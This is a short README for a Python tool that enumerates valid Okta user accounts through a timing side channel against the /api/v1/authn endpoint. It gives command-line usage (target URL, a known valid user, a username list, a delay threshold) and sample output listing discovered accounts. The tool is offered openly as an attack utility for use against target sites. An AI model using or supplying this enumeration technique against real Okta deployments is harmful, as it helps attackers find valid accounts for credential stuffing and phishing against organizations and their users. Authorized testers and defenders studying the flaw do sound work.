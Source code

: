 # OKTASideChannelAttack
OKTA side channel attack to enumerate users

# Usage
```
$ python okta.py https://target.com/api/v1/authn
OKTA Side Channel User Enumeration
Mr.Un1k0d3r RingZer0 Team 2017


Usage: python okta.py [url] [valid_user] [path] [delay]

        Url        Full url to the authn API (/api/v1/authn)
        Valid User Valid user to benchmark the delay
        Path       Path to a list of username
        Delay      Maximum delay difference around 0.010 should be good
```

```
$ python okta.py https://target.com/api/v1/authn ringzer0@team.com users.txt 0.010
OKTA Side Channel User Enumeration
Mr.Un1k0d3r RingZer0 Team 2017

[+] Valid user benchmark is 0.265012
[+] Everything slower than 0.255012 will be considered valid
       neo@team.com is valid
       morpheus@team.com is valid
```

# Credit
Mr.Un1k0d3r RingZer0 Team
